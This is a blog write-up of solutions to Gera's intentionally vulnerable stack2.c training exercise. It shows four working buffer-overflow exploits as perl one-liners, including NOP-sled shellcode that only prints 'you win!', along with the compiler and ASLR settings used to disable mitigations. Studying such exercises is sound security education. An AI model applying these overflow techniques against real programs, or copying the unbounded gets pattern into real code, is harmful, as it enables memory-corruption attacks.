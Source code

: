 Gera's Warming Up on Stack #2 - Solutions
==========================================
date: 02/Jan/2013
summary: Solutions for Gera's Warming up on Stack #2 program.
tags: exploit, mitigations, buffer overflow, writeups

Following is the part 2 in the series of posts I started back in August 2012 with an aim to provide an analysis and possible solutions for the vulnerable programs provided by [Gera](http://corelabs.coresecurity.com/index.php?module=Wiki&action=view&type=researcher&name=Gerardo_Richarte) at his [Insecure Programming](http://community.corest.com/%7Egera/InsecureProgramming/) by example page.

This post follows the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post and if you have not read it, I request you to please do so. Most of the concepts are very similar and since they have been already talked about, I'll not be reiterating them here.

Let's get started. Below is the source for the vulnerable [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html) program:

```c
/* stack2.c                                     *
 * specially crafted to feed your brain by gera */

int main() {
    int cookie;
    char buf[80];

    printf("buf: %08x cookie: %08x\n", &buf, &cookie);
    gets(buf);

    if (cookie == 0x01020305)
        printf("you win!\n");
}
```

Like its counterpart [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html), the above program too accepts user-input through the `gets` function and then looks for a specific value in a local variable named `cookie`. If this value is equal to a certain pre-defined constant, `printf` function is used to show a `you win!` message to the user. There is no direct means of modifying the content of the `cookie` variable. The `gets` function will keep reading from the stdin device until it encounters a newline or EoF character. Since this reading loop fails to honor the size of the destination buffer, a classic buffer overflow vulnerability is introduced in the program. Our aim is to leverage this vulnerability and exploit this program so that it prints the `you win!` message to stdout.

Here are a few observations that could be made by looking at the source of the program:

1.  Since it is defined prior to `buf`, the `cookie` would be placed at
    a higher memory address on the program stack, just below the saved
    registers from the function prologue
2.  The `buf` character array would be at an offset of at least 80B from
    `cookie`
3.  The `gets` call would accept unbounded user-input within `buf` array
    and hence it provides a mechanism to alter the call stack contents

Stack layout for [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html) is identical to [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) as already outlined in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post.

Here are solutions I could think of to get the `you win!` message printed:

-   Solution #1: Overflow the internal `buf` array to overwrite
    `cookie` with 0x01020305
-   Solution #2: Overflow the internal `buf` array to overwrite EIP
    with the address of `printf(you win!)`
-   Solution #3: Inject a NOP-prefixed `printf(you win!)` shellcode and
    overwrite EIP with its address
-   Solution #4: Inject a NOP-prefixed `printf(you win!)` shellcode
    through an environment var and overwrite EIP with its address

Here's a brief description of the test system:

```bash
# cat /etc/lsb-release | grep DESC ; uname -a | cut -d' ' -f1,3,12-13 ; gcc --version | grep gcc ; cat /proc/cpuinfo | grep -E '(vendor|model|flags)'
DISTRIB_DESCRIPTION=*Ubuntu 10.04.2 LTS*
Linux 2.6.38 i686 GNU/Linux
gcc (Ubuntu 4.4.3-4ubuntu5) 4.4.3
vendor_id   : GenuineIntel
model       : 37
model name  : Intel(R) Core(TM) i3 CPU       M 350  @ 2.27GHz
flags       : fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 syscall nx lm constant_tsc up pni monitor ssse3 lahf_l
```

Solution #1: Overflow the internal buf array to overwrite cookie with 0x01020305
---------------------------------------------------------------------------------

Here's the GCC commandline to prepare [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html) for this solution:

```bash
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -o stack2 stack2.c
stack2.c: In function ‘main’:
stack2.c:8: warning: incompatible implicit declaration of built-in function ‘printf’
stack2.c:8: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 2 has type ‘char (*)[80]’
stack2.c:8: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 3 has type ‘int *’
/tmp/ccoBRXbD.o: In function `main':
stack2.c:(.text+0x27): warning: the `gets' function is dangerous and should not be used.
```

All done, let's exploit [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html):

```bash
# perl -e 'print "A"x80 . "\x05\x03\x02\x01"' | ./stack2
buf: bffff4c4 cookie: bffff514
you win!
```

Solution #2: Overflow the internal buf array to overwrite EIP with the address of printf(you win!)
---------------------------------------------------------------------------------------------------

We need to have a look at the assembly of [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html) and find out the location of the `printf` function which displays the `you win!` message:

```c-objdump
# objdump -d -M intel stack2 | grep -A20 main.:
08048444 <main>:
 8048444:   55                      push   ebp
 8048445:   89 e5                   mov    ebp,esp
 8048447:   83 ec 60                sub    esp,0x60
 804844a:   8d 45 fc                lea    eax,[ebp-0x4]
 804844d:   89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 8048451:   8d 45 ac                lea    eax,[ebp-0x54]
 8048454:   89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 8048458:   c7 04 24 50 85 04 08    mov    DWORD PTR [esp],0x8048550
 804845f:   e8 0c ff ff ff          call   8048370 &lt;printf@plt&gt;
 8048464:   8d 45 ac                lea    eax,[ebp-0x54]
 8048467:   89 04 24                mov    DWORD PTR [esp],eax
 804846a:   e8 e1 fe ff ff          call   8048350 &lt;gets@plt&gt;
 804846f:   8b 45 fc                mov    eax,DWORD PTR [ebp-0x4]
 8048472:   3d 05 03 02 01          cmp    eax,0x1020305
 8048477:   75 0c                   jne    8048485 &lt;main+0x41&gt;
 8048479:   c7 04 24 68 85 04 08    mov    DWORD PTR [esp],0x8048568
 8048480:   e8 fb fe ff ff          call   8048380 &lt;puts@plt&gt;
 8048485:   c9                      leave
 8048486:   c3                      ret
 8048487:   90                      nop
```

The address turns out to be 0x8048479. Let's try exploiting:

```bash
# perl -e 'print "A"x88 . "\x79\x84\x04\x08"' | ./stack2
buf: bffff4c4 cookie: bffff514
you win!
Segmentation fault
```

Solution #3: Inject a NOP-prefixed printf(you win!) shellcode and overwrite EIP with its address
-------------------------------------------------------------------------------------------------

Let's first recompile [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html) and request GCC to mark program stack as executable. Additionally, we also need to turn ASLR off so that we can have a static return address to overwrite EIP with:

```bash
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o stack2 stack2.c 2>/dev/null ; readelf -l stack2 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
#
# echo 0 >/proc/sys/kernel/randomize_va_space ; cat /proc/sys/kernel/randomize_va_space
0
```

Now lets go ahead with exploitation. The Null-free, NOP-prefixed `printf(you win!)` shellcode we used to exploit [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post could be reused here:

```bash
# ./stack2
buf: bffff4c4 cookie: bffff514
#
# ./stack2
buf: bffff4c4 cookie: bffff514
#
# perl -e 'print "\x90"x51 . "\xeb\x16\x31\xc0\x31\xdb\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x09\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21" . "\xc4\xf4\xff\xbf"' | ./stack2
buf: bffff4c4 cookie: bffff514
you win!#
```

Solution #4: Inject a NOP-prefixed printf(you win!) shellcode through an environment var and overwrite EIP with its address
----------------------------------------------------------------------------------------------------------------------------

Lets get straight to exploitation:

```bash
# echo $WINCODE | hexdump -C
00000000  eb 16 31 c0 31 db 31 d2  b0 04 b3 01 59 b2 20 cd  |..1.1.1.....Y. .|
00000010  80 31 c0 40 31 db cd 80  e8 e5 ff ff ff 79 6f 75  |.1.@1........you|
00000020  20 77 69 6e 21 20 0d 0a                           | win! ..|
00000028
#
# ./getenvaddr WINCODE ./stack2
[+] WINCODE: 0xbffff726
#
# perl -e 'print "\x90"x88 . "\x26\xf7\xff\xbf"' | ./stack2
buf: bffff4c4 cookie: bffff514
you win!
```

So, we have now successfully exploited the [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html) program through four different techniques. Depending on the motive of your exploitation attempt, other techniques could be devised and some, mentioned here, be rejected.

Like I said, earlier, these solutions are not practical anymore. They just serve the purpose of understanding how exploits used to work before mitigation features were introduced in modern systems. But, as with everything else, understanding basics is really important. As mitigation features mature, exploitation techniques become increasingly complex. And to understand those, we need to build upon the solid foundation of basic concepts, like those discussed on this and other blogs.
